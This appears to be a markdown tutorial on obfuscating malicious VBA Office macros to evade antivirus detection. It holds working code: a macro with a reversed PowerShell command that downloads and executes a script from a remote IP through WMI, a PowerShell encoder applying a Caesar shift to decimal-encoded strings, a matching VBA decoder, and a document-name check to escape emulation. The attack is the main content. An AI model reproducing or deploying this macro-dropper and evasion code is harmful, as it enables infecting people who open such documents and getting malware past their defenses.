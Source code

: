 ## StrReverse Obfuscation
VBA contains a function called [_StrReverse_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/strreverse-function) that, given an input string, returns a string in which the character order is reversed. Our first obfuscation technique is going to rely on reversing all strings to hopefully break the signature detections.

With the help of [_CodeBeautify_](https://codebeautify.org/reverse-string) we can obfuscate our strings for the _StrReverse_ VBA function.
We will also, instead of simply calling _StrReverse_ function repeatedly, will declare it once, and call it to remain discrete:
```VBA
Function bears(cows)
    bears = StrReverse(cows)
End Function

Sub Mymacro()
Dim strArg As String
strArg = bears("))'txt.nur/051.94.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```


## ASCII-Decimal-Ceaser magic
To reduce the detection rate even further, we can perform a more complex obfuscation by converting the ASCII string to its decimal representation and then performing a Caesar cipher encryption on the result.

We can do this by crafting a powershell script.

We do the following steps:
1. We start by creating an input variable called $payload, containing the string to be encrypted.
2. We create another vairable $output, to contain the encrypted string.
3. We convert our payload into character array, using the _ToCharArray()_
4. We run the output of the conversion, through a _ForEach_ loop. Inside the loop:
			- The byte value of each character is increased by 17(ceaser cipher key)
			- We use if/else statements to pad the character's decimal representation to 3 digits.
5. Each decimal value, will be appended to the output string and copied to our clipboard, using the _Clip_ command

The code will look as follows:
```Powershell
$payload = "<string here>"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output | clip
```


Finally, we need to create a dycryption routine.
```VBA
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function
```

The decryption takes place as follows:
1. The main _Nuts_ function performs a _while_ loop through the entire encrypted string.
2. _Oatmilk_ variable is used to accumulate the decrypted string.
3. For each iteration of the loop, the entire encrypted string is sent to _Strawberries_ where the function uses _Left_ to fetch the first three characters of the string and returns that value.
4. The _Pears_ function is called with the three-character string as input.
5. The _Pears_ function treats the three character string as a number, subtracts the Caesar cipher value of 17, and then converts it to a character that is added to the accumulator in _Oatmilk_.
6. the _Almonds_ function is then called inside the loop where the _Right_ function will exclude the first three characters that we just decrypted.


## Icing on cake
We'll put one final effor to evade antivirus, During execution, we check the name of the document and if we find that it is not the same as the one we originally provided, we can assume the execution has been emulated and we can exit the code
we'll even encrypt this static document name (runner.doc in our case)
```VBA
If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
  Exit Function
End If
```

